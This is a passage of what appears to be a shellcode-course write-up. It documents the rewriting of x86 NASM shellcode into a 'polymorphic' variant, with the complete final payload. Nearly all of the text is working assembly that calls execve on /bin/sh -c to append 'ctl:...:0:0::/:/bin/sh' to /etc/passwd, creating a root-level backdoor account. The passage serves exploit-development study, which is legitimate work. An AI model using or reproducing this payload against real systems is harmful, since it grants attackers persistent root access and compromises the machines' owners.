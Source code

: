 #### argv[1] - Flag of Program
```nasm
  mov byte [esi +2], al     ; Null byte to terminate string "-c"
  lea ebx, [esi]            ; move pointer to string "-c" into ebx register
  push ebx                  ; argv[] 2nd arg. Memory location of "-c" anfter first string,
```

#### argv[0] - Pointer to Program Path
```nasm
  push eax                  ; push to null terminator for string "/bin//sh" on the stack.
  push dword [esi +42]      ; push "//sh" onto the stack.
  push dword [esi +38]      ; push "/bin" onto the stack.
  lea ecx, [esp]            ; save for later for ebx
snip--
  mov ebx, ecx              ; memory address of "/bin//sh" on the stack
  push ebx                  ; argv[] array start. Memory pointer to string "/bin/sh"
snip--
  mov ecx, esp              ; point ecx to top of stack
```

### Reuse the "/bin//sh" in the string memory
+ Since the string already has `/bin//sh` the leading `/bin//sh` was deleted.
  - This memory location of `/bin//sh` in the string was used to fufill the `ebx` register.
+ The string was changed from "/bin/sh" to "/bin//sh"
  - This way it fits into 2 `DWORD`s.
  - These `DWORD`s were pushed on to the stack.

```nasm
  xor eax, eax              ; clear out eax register
  push eax                  ; push to null terminator for string "/bin//sh" on the stack.
  push dword [esi +42]      ; push "//sh" onto the stack.
  push dword [esi +38]      ; push "/bin" onto the stack.
  lea ecx, [esp]            ; save for later for ebx
snip--
  mov ebx, ecx              ; memory address of "/bin//sh" on the stack
```

## Final Polymorphic Shellcode
```nasm
global _start
section .text
_start:
  jmp short jmp2call        ; jump2call so we can get the string location on the stack.
string2stack:
  pop esi                   ; pop memory location of string "/bin/sh#-c#/bin/echo.." into esi
  xor eax, eax              ; clear out eax register
  push eax                  ; push to null terminator for string "/bin//sh" on the stack.
  lea edx, [esp]            ; fill edx with pointer to null dword
  push dword [esi +42]      ; push "//sh" onto the stack.
  push dword [esi +38]      ; push "/bin" onto the stack.
  lea ecx, [esp]            ; save for later for ebx
  mov byte [esi +2], al     ; Null byte to terminate string "-c"
  mov byte [esi +61], al    ; Null byte to terminate string
                            ;  "/bin/echo ctl:NNwZ8D1QjVy3Y:0:0::/:/bin/sh >> /etc/passwd#"
  push eax                  ; push to stack argv[] Null dword array terminator.
  lea ebx, [esi +3]         ; move pointer to string "/bin/echo..." into ebx register
  push ebx                  ; argv[] 3rd arg. Mem location to "/bin/echo.." string
  lea ebx, [esi]            ; move pointer to string "-c" into ebx register
  push ebx                  ; argv[] 2nd arg. Memory location of "-c" anfter first string,
  mov ebx, ecx              ; memory address of "/bin//sh" on the stack
  push ebx                  ; argv[] array start. Memory pointer to string "/bin/sh"
  mov ecx, esp              ; point ecx to top of stack
  mov al, 0xb               ; 11 - syscall for execve
  int 0x80                  ; executes execve systemcall
```